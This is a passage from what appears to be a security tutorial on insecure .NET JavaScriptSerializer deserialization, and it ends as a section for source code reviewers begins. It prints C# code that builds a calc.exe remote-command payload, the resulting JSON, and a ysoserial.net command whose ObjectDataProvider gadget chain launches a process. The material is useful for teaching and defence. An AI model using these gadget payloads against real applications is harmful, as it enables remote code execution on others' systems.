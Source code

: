 ```cs
}
```

As observable, the serializer is unsafely used to deserialize an expected Desert object. However, the type definition on the deserializer doesn't forbid the deserialization of unknown objects, as `JavaScriptSerializer` doesn't perform any kind of whitelisting or object inspection. As such, like previously explained, the `RCE` class can be used as a valid gadget, triggering a remote command execution during the deserialization process. 

To build a successful payload, the following code can be used:

```cs
public static void jsonRCESerial(string filename)
{
    filename += ".json";
    var desert = new RCE();
    desert.cmd = "calc.exe";
    // Persist to file
    using (StreamWriter stream = File.CreateText(filename))
    {
        Console.WriteLine("Serializing RCE");
        JavaScriptSerializer serializer = new JavaScriptSerializer();
        stream.Write(serializer.Serialize(desert));
    }
}
```
Which would produce the following payload:

```bash
{"__type":"BinarySerialization.RCE, BinarySeriliazer, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null","cmd":"calc.exe"}
```

Of course, it is also possible to generate an exploitation payload using `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f JavaScriptSerializer -c "calc" -o raw
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```

#### Tips for Source Code reviewers
